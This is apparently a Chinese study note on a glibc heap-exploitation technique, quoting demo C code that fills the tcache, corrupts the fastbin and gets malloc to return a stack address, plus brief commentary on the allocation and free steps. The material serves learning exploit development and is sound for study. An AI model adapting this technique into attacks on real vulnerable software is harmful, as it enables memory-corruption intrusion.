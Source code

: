 ```c
  printf(
    "\n"
    "The next allocation triggers the stack to be overwritten. The tcache\n"
    "is empty, but the fastbin isn't, so the next allocation comes from the\n"
    "fastbin. Also, 7 chunks from the fastbin are used to refill the tcache.\n"
    "Those 7 chunks are copied in reverse order into the tcache, so the stack\n"
    "address that we are targeting ends up being the first chunk in the tcache.\n"
    "It contains a pointer to the next chunk in the list, which is why a heap\n"
    "pointer is written to the stack.\n"
    "\n"
    "Earlier we said that the attack will also work if we free fewer than 6\n"
    "extra pointers to the fastbin, but only if the value on the stack is zero.\n"
    "That's because the value on the stack is treated as a next pointer in the\n"
    "linked list and it will trigger a crash if it isn't a valid pointer or null.\n"
    "\n"
    "The contents of our array on the stack now look like this:\n\n"
  );

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```

执行审计与调试下来，可以发现其实流程十分简单：

先创建14个能进入fastbin大小的chunk，然后先释放其中7个

```c
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "First we need to free(allocsize) at least 7 times to fill the tcache.\n"
    "(More than 7 times works fine too.)\n\n"
  );

  // Fill the tcache.
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }
```
